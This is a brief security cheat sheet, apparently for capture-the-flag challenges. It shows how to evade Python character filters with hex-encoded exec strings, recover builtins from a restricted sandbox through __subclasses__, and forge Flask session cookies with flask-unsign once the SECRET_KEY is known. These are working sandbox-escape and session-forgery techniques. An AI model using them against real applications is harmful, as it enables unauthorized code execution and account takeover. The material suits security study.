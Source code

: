 # Characters not allowed
Python commands can be run in hex form:
```python
string = 'command to be executed'
chars_not_allowed = '[]{}.1'
encoded = ['\\x' + x.encode('hex') for x in chars_not_allowed]
for i in range(len(encoded)):
    string = string.replace(chars_not_allowed[i], encoded[i])
exec(string)
```
Note: The transitions back only happen when the hex is in a string! You might want to escape `'` and `"` in the string!

Note: Try adding more `\\`'s if it doesn't work (`\\`, `\\\\`, `\\\\\\\\`)

# Recovering builtins
Whenever you're in a situation where `{'__builtins__': None}`, the builtins can be recovered.

`s = "[c for c in ().__class__.__base__.__subclasses__() if c.__name__ == 'catch_warnings'][0]()._module.__builtins__['FUNCTIONNAME'](ARGUMENTS)"; exec(s, {'builtins': None})`

[More info](https://nedbatchelder.com/blog/201206/eval_really_is_dangerous.html)

# Flask
## Crafting sessions tokens
When the SECRET_KEY is given, these tokens can be maliciously crafted.

The tool [flask-unsign](https://github.com/Paradoxis/Flask-Unsign) provides us many useful functions.

Crafting: `flask-unsign --legacy --sign --cookie '{"key":val}' --secret 'SECRET_KEY'`

They can also be decoded: `flask-unsign --decode --cookie 'cookie_val'`
